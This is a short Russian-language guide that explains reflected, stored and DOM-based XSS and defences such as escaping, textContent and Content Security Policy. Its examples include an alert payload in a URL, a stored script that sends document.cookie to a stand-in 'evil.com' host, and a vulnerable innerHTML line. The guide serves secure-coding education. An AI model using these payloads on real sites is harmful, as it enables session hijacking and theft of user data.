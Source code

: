 ### 🧨 Виды XSS

1. Reflected XSS (отражённый)

* Скрипт передаётся через URL или форму.
* Отображается на странице сразу (например, в ответе от сервера).

```
https://site.com/search?q=<script>alert(1)</script>
```

2. Stored XSS (сохраняемый)

* Вредоносный скрипт сохраняется на сервере (в базе, комментариях, и т.п.).
* Выполняется у всех, кто открывает заражённую страницу.

```html
<!-- Комментарий от злоумышленника -->
<script>fetch('https://evil.com/steal?c=' + document.cookie)</script>
```

3. DOM-based XSS

* Уязвимость возникает в JS-коде на клиенте
* Нет участия сервера — вся логика в DOM/JS

```js
// 🚨 Опасно: вставляем данные из location.hash без фильтрации
document.getElementById("output").innerHTML = location.hash; // ❌ XSS

// Решение:
document.getElementById("output").textContent = location.hash; // ✅ Безопасно
```

---

### 🔒 Как защититься от XSS

🔹 1. Экранирование HTML

Не вставлять "сырые" данные в `innerHTML`, если не прошли фильтрацию

🔹 2. Использовать безопасные методы вставки

| Опасно                              | Безопасно                    |
|-------------------------------------|------------------------------|
| `innerHTML`                         | `textContent`                |
| `document.write`                    | `createTextNode`             |
| `dangerouslySetInnerHTML` (в React) | JSX (по умолчанию безопасен) |

🔹 3. Content Security Policy (CSP)

Устанавливает правила, откуда можно загружать скрипты

```
Content-Security-Policy: default-src 'self'; script-src 'self'
```
